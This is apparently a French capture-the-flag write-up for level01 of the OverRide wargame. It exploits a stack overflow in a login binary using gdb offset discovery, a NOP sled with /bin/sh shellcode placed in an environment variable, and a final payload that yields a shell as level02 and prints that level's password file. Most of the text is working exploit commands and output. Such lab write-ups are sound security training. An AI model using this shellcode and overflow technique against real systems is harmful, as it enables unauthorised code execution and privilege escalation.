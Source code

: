 # Level 01

Dans ce programme, on a deux variable, une pour le mot de passe et une pour le username.</br>
En premier lieu il va lire de 256 caracteres dans la variable username et verifier que le username est egal a dat_wil.</br>
Si c'est le cas alors il va lire 100 caracteres dans la variable pass, mais cette variable ne peut seulement contenir 16 caracteres.

On va essayer d'overflow fgets pour récuperer l'offset jusqu'a EIP.
```
(gdb) r < <(echo "dat_wil";for x in {A..z}; do echo -n "$x$x$x$x"; done)
Starting program: /home/users/level01/level01 < <(echo "dat_wil"; for x in {A..z}; do echo -n "$x$x$x$x"; done)
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()


$ python
>>> bytes.fromhex("55").decode("ASCII")
'U'
>>> (ord('U') - ord('A')) * 4
80
```
Maintenant qu'on a notre offset, on va pouvoir faire un NOP sled avec un shellcode, en mettant l'adresse de notre NOP sled dans EIP.
```
level01@OverRide:~$ export SHELLCODE=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`
level01@OverRide:~$ gdb ./level01
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d5 in main ()
(gdb) x/200x $esp
0xffffd690:	0xf7fceff4	0x00000000	0x00000000	0xf7e45513
0xffffd6a0:	0x00000001	0xffffd734	0xffffd73c	0xf7fd3000
0xffffd6b0:	0x00000000	0xffffd71c	0xffffd73c	0x00000000
0xffffd6c0:	0x08048250	0xf7fceff4	0x00000000	0x00000000
0xffffd6d0:	0x00000000	0xd80bbdce	0xef0f59de	0x00000000
0xffffd6e0:	0x00000000	0x00000000	0x00000001	0x080483b0
0xffffd6f0:	0x00000000	0xf7ff0a50	0xf7e45429	0xf7ffcff4
0xffffd700:	0x00000001	0x080483b0	0x00000000	0x080483d1
0xffffd710:	0x080484d0	0x00000001	0xffffd734	0x080485c0
0xffffd720:	0x08048630	0xf7feb620	0xffffd72c	0xf7ffd918
0xffffd730:	0x00000001	0xffffd854	0x00000000	0xffffd870
0xffffd740:	0xffffd8f6	0xffffd90a	0xffffd91a	0xffffd939
0xffffd750:	0xffffd94c	0xffffd959	0xffffde7a	0xffffde85
0xffffd760:	0xffffde9c	0xffffdee9	0xffffdef8	0xffffdf10
0xffffd770:	0xffffdf21	0xffffdf2a	0xffffdf32	0xffffdf4b
0xffffd780:	0xffffdf5d	0xffffdf6d	0xffffdf9a	0xffffdfba
0xffffd790:	0x00000000	0x00000020	0xf7fdb430	0x00000021
0xffffd7a0:	0xf7fdb000	0x00000010	0x178bfbff	0x00000006
0xffffd7b0:	0x00001000	0x00000011	0x00000064	0x00000003
0xffffd7c0:	0x08048034	0x00000004	0x00000020	0x00000005
0xffffd7d0:	0x00000009	0x00000007	0xf7fdc000	0x00000008
0xffffd7e0:	0x00000000	0x00000009	0x080483b0	0x0000000b
0xffffd7f0:	0x000003e9	0x0000000c	0x000003e9	0x0000000d
0xffffd800:	0x000003e9	0x0000000e	0x000003e9	0x00000017
0xffffd810:	0x00000000	0x00000019	0xffffd83b	0x0000001f
0xffffd820:	0xffffdfdc	0x0000000f	0xffffd84b	0x00000000
0xffffd830:	0x00000000	0x00000000	0x88000000	0x7e0b14a9
0xffffd840:	0x8c1893d3	0xa2047e38	0x69702cbb	0x00363836
0xffffd850:	0x00000000	0x6d6f682f	0x73752f65	0x2f737265
0xffffd860:	0x6576656c	0x2f31306c	0x6576656c	0x0031306c
0xffffd870:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xffffd880:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd890:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8d0:	0x90909090	0x90909090	0x90909090	0xc0319090
0xffffd8e0:	0x2f2f6850	0x2f686873	0x896e6962	0x895350e3
0xffffd8f0:	0xcd0bb0e1	0x45540080	0x783d4d52	0x6d726574
0xffffd900:	0x3635322d	0x6f6c6f63	0x48530072	0x3d4c4c45
0xffffd910:	0x6e69622f	0x7361622f	0x53530068	0x4c435f48
0xffffd920:	0x544e4549	0x2e30313d	0x2e322e30	0x33332032
0xffffd930:	0x20343430	0x32343234	0x48535300	0x5954545f
0xffffd940:	0x65642f3d	0x74702f76	0x00302f73	0x52455355
0xffffd950:	0x76656c3d	0x31306c65	0x5f534c00	0x4f4c4f43
```
Dans cette liste d'hexa on va chercher nos NOP (0x90 en hexa) et prendre une adresse à peu près au milieu. (0xffffd8d0)
```
level01@OverRide:~$ (python -c 'print "dat_wil\n" + "B" * 80 + "\xd0\xd8\xff\xff"'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat ~level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

